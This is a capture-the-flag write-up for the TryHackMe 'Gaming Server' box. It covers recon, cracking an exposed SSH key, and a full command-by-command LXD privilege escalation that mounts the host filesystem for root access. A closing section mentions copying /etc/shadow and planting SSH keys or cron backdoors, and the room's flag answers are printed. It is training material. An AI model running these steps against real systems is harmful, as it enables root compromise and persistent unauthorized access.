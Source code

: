 # Write Up for Try Hack Me box - [Gaming Server](https://tryhackme.com/room/gamingserver)

Basic box with ssh key lying around like it's Christmas.\
Another LXD PROV ESC.

> Pratyush Prakhar (5#1NC#4N) - 03/01/2021

## RECONNAISSANCE

1. Scan the box with rustscan. Here are the results stored. --> [nmap dir](rustscan).

**Results**

```bash
Nmap scan report for 10.10.239.203
Host is up, received syn-ack (0.21s latency).
Scanned at 2024-02-17 18:09:06 EST for 14s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
|   256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. There are **3 TCP** ports open. 
	1. *Port 22* - SSH - **OpenSSH 7.6p1** 
	2. *Port 80* - WEB - **Apache httpd 2.4.29**

3. Let's explore WEB part first. Then we can use SSH.

## WEB

1. Let's first check out the web server on port 80. 
	1. We get a default page with no important links going out. - Default HTML page.
	\
	![](images/web.png)
	2. We will go for the low hanging fruit - robots, page source and try to get some information. 
		1. Found some hint for the index web page to check out the `uploads` dir.
		2. Also, comments on the page source tell us about the user `john`.
		\
		![](images/ps.png)
		\
		\
		![alt text](images/robots.png)

2. We will also start a directory buster on the side to check out other locations.

3. Checking out the `uploads` [dir](web/uploads).
	\
	![alt text](images/uploads.png)
	1. We get a dictionary list - [dict.lst](web/uploads/dict.lst). This might come in handy later for some cracking.
	2. We get the great [hacker manifesto](web/uploads/manifesto.txt). Quite a cheeky touch. Might not be useful for the box though.
	3. Lastly is a odd image. MAybe we can throw some tools like **steghide** or **stegseek** at it with out dictionary. But no luck with even the rockyou.txt !!!!

4. Let's now check out our gobuster [results](web/gobust.out).
	1. We find a unusual directory - `secret`.
	\
	![alt text](images/secret.png)
	2. On checking we find a encrypted [ssh key](web/secret/secretKey) in it.
	3. Using our old friend hydra, we crack it pretty easy as [this](web/secret/ssh_key).


## INITIAL ACCESS - SSH

1. Let's now try to get in as john with all the details. And like that we ar ein. We can now read the user flag.

```bash
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
********************************
```

2. Now let's try to get fish around and escalate to some other worthwhile user as holt has nothing. We also find through the [linpeas output](ssh/tmp/linpeas.out) that we are part of the the `lxd` group.

```bash
john@exploitable:~$ groups
john adm cdrom sudo dip plugdev lxd
```

3. We can use the following [method](https://www.hackingarticles.in/lxd-privilege-escalation/) to get the priv esc.

## PRIVESC

1. Using the following alpine [file](ssh/john/alpine-v3.13-x86_64-20210218_0139.tar.gz). Rest is easy peasy.

```bash
john@exploitable:/tmp$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz
linpeas.out
linpeas.sh
systemd-private-25657e7d469d4e9a906dca1ca5cf2b84-apache2.service-57552k
systemd-private-25657e7d469d4e9a906dca1ca5cf2b84-systemd-resolved.service-uz245v
systemd-private-25657e7d469d4e9a906dca1ca5cf2b84-systemd-timesyncd.service-OGxPro
john@exploitable:/tmp$ which lxc
/usr/bin/lxc
john@exploitable:/tmp$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias exploit
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| exploit | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Feb 17, 2024 at 11:50pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
john@exploitable:/tmp$ lxc init exploit  ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/backdoor recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite 
john@exploitable:/tmp$ lxc exec ignite /bin/bash
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # whoami
root
~ # bash
/bin/sh: bash: not found
~ # /bin/bash
/bin/sh: /bin/bash: not found
~ # which nc
/usr/bin/nc
~ # cd /root/
~ # ls
~ # ls -la
total 12
drwx------    2 root     root          4096 Feb 17 23:51 .
drwxr-xr-x   19 root     root          4096 Feb 17 23:51 ..
-rw-------    1 root     root            54 Feb 17 23:52 .ash_history
~ # cd /mnt/backdoor/
/mnt/backdoor # ls
bin             home            lost+found      root            swap.img        vmlinuz
boot            initrd.img      media           run             sys             vmlinuz.old
cdrom           initrd.img.old  mnt             sbin            tmp
dev             lib             opt             snap            usr
etc             lib64           proc            srv             var
cd /root/
cat .ash_history 
~ # ls
~ # ls -la
total 12
drwx------    2 root     root          4096 Feb 17 23:51 .
drwxr-xr-x   19 root     root          4096 Feb 17 23:51 ..
-rw-------    1 root     root           113 Feb 17 23:52 .ash_history
~ # cd /mnt/backdoor/
bin/         dev/         lib/         media/       proc/        sbin/        sys/         var/
boot/        etc/         lib64/       mnt/         root/        snap/        tmp/
cdrom/       home/        lost+found/  opt/         run/         srv/         usr/
/mnt/backdoor/root # ls
root.txt
/mnt/backdoor/root # cat root.txt 
********************************
```

## EXTRA TREAT 

1. We can now obtain the [following files](ssh/etc) easily that can be used later.
	1. **/etc/passwd**
	2. **/etc/shadow**
	3. **/etc/hosts**
	4. **/etc/sudoers**
	5. **/etc/crontab**
	6. **/proc**

2. We can also add [our *ssh keys*](ssh/gs.pub) to `authorized_keys` to get a foothold on the box. You can use other methods like crons and process hijacking as well to plant a backdoor.

3. Find out more with the linpeas scans that can be obtained [here](ssh/tmp/linpeas.out).

4. That is it. Shutting down.....

## BROWNIE POINTS

1. User.txt - **a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e**

2. root.txt - **2e337b8c9f3aff0c2b3e8d4e6a7c88fc**

**Stay Tuned On**\
[GitHub](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)